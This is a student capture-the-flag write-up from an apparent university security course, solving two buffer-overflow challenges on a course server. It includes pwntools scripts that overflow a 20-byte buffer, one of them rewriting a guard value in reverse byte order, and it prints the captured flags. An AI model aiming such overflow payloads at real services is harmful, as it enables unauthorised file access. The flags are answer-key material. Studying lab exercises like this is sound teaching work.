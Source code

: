 # Week 5: CTF - web

## Goal
> Gain access to a file by taking advantage of a buffer overflow.

### Challenge 1
 
> After analyzing the source code, we realized that whatever namefile was in the meme_file variable was the file that was going to be opened, read and printed.
> So if we could change the meme_file variable to the file "flag.txt" we would then have access to this file and its contents.
> Since the *scanf* function reads 28 characters into the 20 character buffer then everything beyond the 20th character will be written to the meme_file variable. So we used the following python code to access the flag.txt file : 
```
#!/usr/bin/python3
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa" + b"flag.txt") # Send 20 "trash" bytes and then the value of the file we want to open
r.interactive()

```

> The correct flag for challenge 1 was found: 
```
flag{e2b5a6b98ff37b5c85dd8a59bf222caa}
```


### Challenge 2

> This challenge had some minor changes from the first one in order to prevent a buffer overflow . However, this mitigation did not prove to be efficient since it was easily bypassed.

> A variable has been added between the buffer and meme_file to prevent overflow. 
> However, if we could replicate what was written in this variable ("0xfefc2223") the program would assume that this variable had not been changed and would therefore open the file.
> Since the variables are written in the stack bottom-up, the bytes of the val variable must be set in the reverse order. Using the following python script we can perform this attack and get the flag:

```
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4000)
r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa" + b"\x23\x22\xfc\xfe" + b"flag.txt")
r.interactive()

```

> The correct flag for challenge 1 was found: 
```
flag{0e68e08552b7bfe81eb7f7201d81d023}
```
